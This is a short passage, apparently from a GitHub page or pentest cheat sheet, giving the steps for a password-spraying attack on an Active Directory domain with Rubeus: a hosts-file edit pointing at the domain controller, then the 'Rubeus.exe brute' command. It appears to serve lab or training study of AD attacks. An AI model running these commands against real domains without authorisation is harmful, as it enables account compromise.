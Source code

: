 ##### Requirements
Access to the AD (any)

##### Pre-attack
Firstly, add the IP of the Domain Controller to the Hosts file:
```
echo "IP CONTROLLER.local" >> C:\Windows\System32\drivers\etc\hosts
```
Note: Make sure this is correct, an incorrect hosts config will yield the `[X] Error resolving hostname 'CONTROLLER.local' to an IP address: No such host is known` error.

##### Attack
Rubeus.exe will look for users, then try the specified password.
```
Rubeus.exe brute /password:PASSWORD /noticket
```
